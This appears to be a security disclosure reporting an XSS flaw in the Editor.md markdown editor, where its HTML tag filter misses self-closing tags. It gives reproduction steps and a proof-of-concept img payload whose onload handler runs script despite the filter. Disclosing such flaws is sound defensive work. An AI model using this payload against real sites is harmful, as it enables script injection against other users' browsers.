 # Description

I would like to report XSS vulnerability in pandao/editor.md
Implemented Html tag filtering doesn't work for self clossing tags, leading to posible code injection on this elements

# Module
module name: Editor.md
version: all versions

# Module Description

Editor.md : The open source embeddable online markdown editor (component), based on CodeMirror & jQuery & Marked.

# Weekly Downloads

1,417

# Vulnerability Description

XSS in editor.md is avoided by using filterHTMLTags which uses a RegExp to replace possible dangerous content, unfortunetly the RegExp doesn't handle self clossing tags, making it possible to execute code


# POC

Insert in editor a self clossing element with event to execute code

  1. Download editor.md 
    `git clone https://github.com/pandao/editor.md`
  2. Go into directory
    `cd editor.md` 
  3. Make the content available with any web server
    `php -S localhost:8080`
  4. open http://localhost:8080/examples/html-tags-decode.html
  5. Filter code execution by clicking on Filter style,script,iframe|onclick,title,onmouseover,onmouseout,style
     (No code should be executed with this Filter)
  2. Insert element with payload usig the editor: 
     `<img src="https://picsum.photos/200" style="position:fixed;left:0;top:0;width:10000px;height:10000px;" style="z-index:3000" onload="alert('img execution...')"/>`

# Impact
This could have enabled an attacker to execute code remotely if the content of the editor is saved and then retrieved by some other user
